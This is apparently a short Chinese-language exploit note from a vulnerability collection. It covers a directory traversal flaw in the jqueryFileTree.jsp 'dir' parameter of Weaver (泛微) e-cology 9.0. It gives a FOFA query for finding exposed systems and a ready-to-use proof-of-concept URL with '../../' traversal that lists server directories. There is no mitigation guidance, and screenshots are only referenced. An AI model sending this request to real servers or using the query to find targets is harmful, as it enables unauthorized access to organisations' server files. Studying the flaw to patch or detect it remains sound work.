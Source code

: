# 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中 jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息

## 漏洞影响

```
泛微e-cology 9.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![1](./images/202209131045944.png)

验证POC

```
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![2](./images/202209131046623.png)